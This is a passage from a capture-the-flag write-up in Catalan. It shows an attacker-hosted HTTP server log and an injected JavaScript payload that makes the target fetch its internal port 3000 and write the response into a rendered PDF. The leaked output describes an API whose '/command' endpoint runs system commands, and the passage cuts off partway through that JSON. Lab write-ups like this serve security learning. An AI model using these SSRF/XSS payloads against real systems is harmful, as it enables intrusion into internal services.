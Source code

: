 Observem que, a banda del port `80`, també hi ha el port `3000` obert de manera interna.

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.117 - - [22/Mar/2025 00:24:05] "GET /script.js HTTP/1.1" 304 -
192.168.1.117 - - [22/Mar/2025 00:24:05] code 404, message File not found
192.168.1.117 - - [22/Mar/2025 00:24:05] "GET /ping?port=80 HTTP/1.1" 404 - <---
192.168.1.117 - - [22/Mar/2025 00:24:06] code 404, message File not found
192.168.1.117 - - [22/Mar/2025 00:24:06] "GET /ping?port=3000 HTTP/1.1" 404 - <---
```

Tornem a modificar el fitxer `script.js` per visualitzar la resposta al port 3000.

```javascript
x=new XMLHttpRequest;
x.onload=function(){
  document.write("<div>"+this.responseText+"</div>")
};
x.open("GET","http://localhost:3000");
x.send();
```

Descarreguem el PDF i obtenim un text en format JSON.

![alt text](../../../assets/images/token-of-hate/image-12.png)

```json
{
   "name":"API de Comandos",
   "version":"1.2.0",
   "description":"API para autenticación y ejecución de comandos utilizando
un token.",
   "endpoints":{
      "/":{
         "method":"GET",
         "description":"Muestra la información de la API y la descripción de los
endpoints disponibles."
      },
      "/login":{
         "method":"POST",
         "description":"Permite iniciar sesión. Se espera un body en formato
JSON con 'username' y 'password'. Si el login es correcto, se retorna un token JWT. Ejemplo: { \"username\": \"test\",
\"password\": \"123456\" }"
      },
      "/command":{
         "method":"POST",
         "description":"Ejecuta un comando del sistema para
usuarios autenticados con rol admin. Se espera un body en formato JSON con 'command' y 'token' o enviando el token
```